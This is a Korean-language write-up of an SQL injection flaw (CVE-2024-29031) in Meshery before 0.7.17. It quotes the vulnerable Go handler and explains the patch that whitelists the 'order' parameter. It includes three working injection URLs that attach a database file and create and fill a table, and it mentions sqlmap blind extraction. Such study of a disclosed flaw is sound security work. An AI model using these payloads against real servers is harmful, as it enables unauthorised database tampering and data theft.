

## URL

https://securitylab.github.com/advisories/GHSL-2023-249_Meshery/

## Target

- Meshery < 0.7.17

## Explain

Kubernetes 인프라와 애플리케이션 설계 및 관리를 담당하는 Meshery에서 SQL Injection 취약점이 발견되었습니다.
```
func (h *Handler) GetMeshSyncResources(rw http.ResponseWriter, r *http.Request, _ *models.Preference, _ *models.User, provider models.Provider) {
    // --snip--
    order := r.URL.Query().Get("order")
    sort := r.URL.Query().Get("sort")
    // --snip--

    result := provider.GetGenericPersister().Model(&model.KubernetesResource{}).
        Preload("KubernetesResourceMeta")

        // --snip--

    if order != "" {
        if sort == "desc" {
            // --snip--
        } else {
            result = result.Order(order) // <- SQL Injection!
        }
    }

    err := result.Find(&resources).Error
    // --snip--
}
```
`/api/system/meshsync/resources`  API URL을 통해 `order` 매개변수를 전달할 경우`GetMeshSyncResources` 함수에서 매개변수를 처리합니다.

이때 `order` 매개변수의 값을 검증하지 않고 SQL문으로 사용하여 취약점이 발생했습니다.

```
http://(server):9081/api/system/meshsync/resources?order=1%3bATTACH+DATABASE+'/tmp/test'+AS+test--
http://(server):9081/api/system/meshsync/resources?order=1%3bCREATE+TABLE+test.pwn+(dataz+text)--
http://(server):9081/api/system/meshsync/resources?order=1%3bINSERT+INTO+test.pwn+(dataz)+VALUES+("pwned")--
```
위 세가지 요청을 통해, 공격자는 서버 DB에 접근하여 임의의 DB 파일을 생성하고, 그 안에 새로운 테이블과 데이터를 추가할 수 있습니다.

추가로 기존 DB 테이블에 원하는 데이터를 삽입하거나, sqlmap 도구를 통해 blind sql injection 공격으로 서버의 민감한 정보를 얻을 수 있습니다.



해당 취약점은 `models.SanitizeOrderInput` 함수를 사용해 `order` 매개변수 값을 세 가지(created_at, updated_at, name)로 검증하는 코드가 추가되어 패치되었습니다.


## Reference

- [CVE-2024-29031 - Patch](https://github.com/meshery/meshery/blob/v0.7.17/server/handlers/meshsync_handler.go)